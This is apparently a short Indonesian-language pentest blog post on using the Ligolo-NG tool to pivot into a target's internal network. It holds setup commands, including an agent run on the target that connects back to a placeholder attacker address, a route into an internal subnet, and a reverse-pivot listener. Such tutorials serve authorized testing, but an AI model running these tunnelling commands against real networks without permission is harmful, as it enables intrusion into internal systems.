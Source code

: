 ```yaml
---
title: Ligolo-NG - Pivoting Like a VPN
author: "novran"
date: 2024-11-23 00:00:00 +0700
categories: [Network Pentest]
tags: [Network Pentest]
mermaid: true
image:
  path: /images/2024-11-23-ligolo-pivoting-like-a-vpn-banner.png
  alt: Kerberoasting
---
```


Ligolo adalah alat open-source yang memungkinkan Kita untuk melakukan Pivoting dalam jaringan target. Dengan Ligolo, pengguna dapat mengakses jaringan internal target melalui tunnel terenkripsi tanpa perlu konfigurasi kompleks, hal ini tentunya terasa lebih seperti menggunakan VPN.

----------

## Installation

Terdapat 2 file yang perlu kalian Download di [Ligolo v0.6.2](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2).

1. `proxy` - file ini akan dijalankan di host kalian sendiri.
2. `agent` - file ini akan dijalankan di mesin target.

## Setup

**1. [Attacker Machine] Run the Proxy (as a Server)**

```bash
sudo ip tuntap add user xcho mode tun ligolo
sudo ip link set ligolo up
./proxy -laddr <ATTACKER_IP>:<ATTACKER_PORT> -selfcert
```

**2. [Target Machine] Run the Agent**

```powershell
.\agent.exe -connect <ATTACKER_IP>:<ATTACKER_PORT> -ignore-cert
```

**3. [Attacker Machine] Start Session in Ligolo Proxy**

```
>> session
>> start
```

**4. [Attacker Machine] Create a Network Route**

```
sudo ip route add <DMZ_NETWORK>/24 dev ligolo
```

> `<DMZ_NETWORK>` adalah Subnet yang tidak dapat dijangkau oleh mesin Attacker, contohnya `10.10.10.0/24`.

----------

## Cheatsheet

Reverse Pivoting

```
>> listener_add --addr 0.0.0.0:4433 --to 127.0.0.1:4433 --tcp
```
